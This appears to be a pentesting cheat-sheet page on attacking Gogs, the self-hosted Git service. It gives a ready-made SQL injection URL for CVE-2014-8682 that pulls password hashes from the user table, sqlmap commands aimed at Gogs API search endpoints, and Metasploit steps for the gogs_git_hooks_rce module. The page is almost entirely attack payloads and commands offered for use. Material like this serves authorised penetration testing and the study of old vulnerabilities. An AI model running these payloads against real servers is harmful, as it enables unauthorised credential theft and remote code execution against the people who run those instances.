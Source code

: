 ```yaml
---
title: Gogs Pentesting
description: Gogs (Go Git Service) is a painless self-hosted Git Service.
tags:
    - SQL Injection
    - Web
refs:
date: 2023-04-27
draft: false
---
```


## SQL injection ([CVE-2014-8682](https://www.exploit-db.com/exploits/35238))

```txt
http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--
```

### Automation

```bash
sqlmap -u "https://example.com/api/v1/repos/search?q=test"
sqlmap -u "https://example.com/api/v1/users/search?q=test"
```

<br />

## Git Hooks Remote Code Execution (RCE)

```bash
msfconsole
msf> use exploit/multi/http/gogs_git_hooks_rce
msf> (set options...)
msf> run
```